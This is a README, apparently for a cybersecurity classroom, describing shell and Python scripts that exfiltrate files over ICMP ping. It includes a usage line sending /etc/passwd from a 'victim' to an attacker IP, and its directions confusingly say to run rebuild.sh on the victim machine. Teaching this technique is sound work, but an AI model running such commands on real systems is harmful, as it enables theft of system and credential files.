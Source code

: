 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over ping.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output.)

On the **VICTIM** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


